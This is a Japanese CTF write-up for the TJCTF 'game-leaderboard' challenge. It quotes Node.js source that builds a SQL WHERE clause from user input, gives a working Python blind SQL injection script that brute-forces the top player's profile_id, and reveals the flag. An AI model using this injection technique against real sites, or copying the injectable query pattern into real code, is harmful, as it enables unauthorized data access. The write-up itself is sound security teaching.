


# Writeup

リンク先にアクセスする。



数字を入れて `Submit` を押すと、その点数以上の名前が表示されるように見える。



ソースコードを確認すると、WHERE句にPOSTでクエリを入力できるようになっている。

```js
const getLeaderboard = (minScore) => {
    const where = (typeof minScore !== 'undefined' && minScore !== '') ? ` WHERE score > ${minScore}` : ''
    const query = `SELECT profile_id, name, score FROM leaderboard${where} ORDER BY score DESC`
    const stmt = db.prepare(query)

    const leaderboard = []
    for (const row of stmt.iterate()) {
        if (leaderboard.length === 0) {
            leaderboard.push({ rank: 1, ...row })
            continue
        }
        const last = leaderboard[leaderboard.length - 1]
        const rank = (row.score == last.score) ? last.rank : last.rank + 1
        leaderboard.push({ rank, ...row })
    }

    return leaderboard
}
```

また、フラグを入手するためには、一番`score`の高い`profile_id`を探す必要がある。

```js
app.get('/user/:userID', (req, res) => {
    const leaderboard = getLeaderboard()
    const total = leaderboard.length

    const profile = leaderboard.find(x => x.profile_id == req.params.userID)
    if (typeof profile === 'undefined') {
        return res.render('user_info', { notFound: true })
    }

    const flag = (profile.rank === 1) ? FLAG : 'This is reserved for winners only!'
    return res.render('user_info', { total, flag, ...profile })
})
```

POSTパラメータに `100 or CAST(profile_id AS TEXT) like '%'` というクエリを入力することで Blind SQL Injection ができそうなので、スクリプトを組んで`profile_id`を特定する。

```py
import requests
from bs4 import BeautifulSoup
import re

with requests.Session() as session:
    r = session.get("https://game-leaderboard.tjc.tf/")
    bs = BeautifulSoup(r.text, 'html.parser')
    rank1_name = bs.select("#table-body > tr:nth-child(1) > td:nth-child(2)")[0].text

    NUMBERS = "0123456789abcdef"
    known = ""

    while True:
        for n in NUMBERS:
            guess = f'{known}{n}%'
            query = f"100 or CAST(profile_id AS TEXT) like '{guess}'"
            params = {'filter': query}
            r = session.post("https://game-leaderboard.tjc.tf/", data=params)
            bs = BeautifulSoup(r.text, 'html.parser')
            try:
                name = bs.select("#table-body > tr:nth-child(1) > td:nth-child(2)")[0].text
                if name != rank1_name:
                    continue
            except IndexError:
                # Not Found
                continue
            print(guess)
            known += n
            break
        else:
            break
    print(known)

    r = session.get(f"https://game-leaderboard.tjc.tf/user/{known}")
    print(re.findall(r'tjctf\{.*\}', r.text))
```

`/user/{profile_id}` にアクセスするとフラグが表示された。

<!-- tjctf{h3llo_w1nn3r_0r_4re_y0u?} -->
